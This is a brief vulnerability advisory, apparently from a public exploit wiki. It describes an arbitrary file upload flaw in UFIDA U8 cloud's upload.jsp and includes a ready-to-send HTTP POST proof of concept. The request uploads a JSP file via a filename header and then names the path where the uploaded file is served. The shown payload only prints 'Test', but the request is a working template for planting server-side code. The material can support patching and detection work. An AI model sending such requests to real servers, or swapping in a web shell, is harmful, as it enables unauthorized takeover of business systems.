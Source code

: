 # UFIDA U8 cloud upload.jsp Any file upload vulnerability

## Vulnerability Description

There is a vulnerability to upload any file in UFIDA U8 cloud upload.jsp file, and the attacker can obtain server permissions through the vulnerability.

## Vulnerability Impact

UFIDA U8 cloud

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1697868186972-17bbaf78-0023-4136-9e3e-1d2cbb040c78.png)

Verify POC

```php
POST /linux/pages/upload.jsp HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
filename: Test.jsp
Accept-Encoding: gzip

<% out.println("Test");%>
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1697868208721-60df96f5-0fd0-4c88-99de-d44cb8e81479.png)

```php
/linux/xxx.jsp
```